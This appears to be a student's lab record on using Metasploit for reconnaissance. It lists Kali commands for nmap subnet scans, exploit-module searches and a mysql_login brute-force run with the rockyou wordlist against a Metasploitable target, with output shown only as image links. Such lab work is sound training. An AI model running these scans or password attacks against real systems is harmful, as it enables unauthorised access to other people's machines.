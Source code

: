 # EX 5 Metasploit-for-reconnaissance

## Developed By  : SANJAY M
## Register No   : 212223230187

# Metasploit
Metasploit for reconnaissance in pentesting

# AIM:

To get introduced to Metasploit Framework and to  perform reconnaissance  in pentesting .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```
ifconfig
```

## OUTPUT:
![alt text](ifcon.png)

```
msfconsole
```
## OUTPUT:
![alt text](msfcon.png)

```
help
```
## OUTPUT:
![alt text](help.png)


```
nmap -sT <default IP gateway>/24 -p1-1000
```
## OUTPUT:
![alt text](<nmap -st.png>)

```
db_nmap <default IP gateway>/24
```
## OUTPUT:
![alt text](db_nmap.png)

![alt text](db_nmap1.png)

```
cd /usr/share /metasploit-framework/modules/auxiliary
```
```
 ls -l
 ```
## OUTPUT: 
 ![alt text](ls-l.png)

```
search name:Microsoft type:exploit
```
## OUTPUT: 
![alt text](search.png)

```
db_nmap -sV -sC -p 3306 <metasploitable_ip_address>
```
## OUTPUT: 
![alt text](<db_nmap ip.png>)

```
search type:auxiliary mysql
```
## OUTPUT: 
![alt text](<search mysql.png>)

```
use 11
```
## OUTPUT: 
![alt text](<use 11.png>)

```
set RHOSTS <IP>
```
## OUTPUT: 
![alt text](rhost.png)

```
use auxiliary/scanner/mysql/mysql_login
```
## OUTPUT: 
![alt text](<use mysqllogin.png>)

```
set PASS_FILE /usr/share/wordlists/rockyou.txt
```
```
set RHOSTS <metasploitable-ip-address>
```
```
set BLANK_PASSWORDS true
```
```
set verbose no
```
```
run
```
## OUTPUT: 
![alt text](<pwd rockyou.png>)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
